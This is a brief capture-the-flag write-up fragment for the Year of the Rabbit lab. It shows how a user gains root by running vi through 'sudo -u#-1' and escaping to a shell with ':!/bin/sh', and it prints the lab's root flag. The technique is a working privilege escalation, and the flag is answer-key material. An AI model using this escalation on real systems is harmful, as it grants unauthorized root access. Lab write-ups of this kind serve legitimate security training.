 
This exploit didn't work, but the comments did explain how to get root manually using `sudo -u#-1`.
https://www.exploit-db.com/exploits/47502


`gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

`:!/bin/sh`

which gives us root.

**THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}**




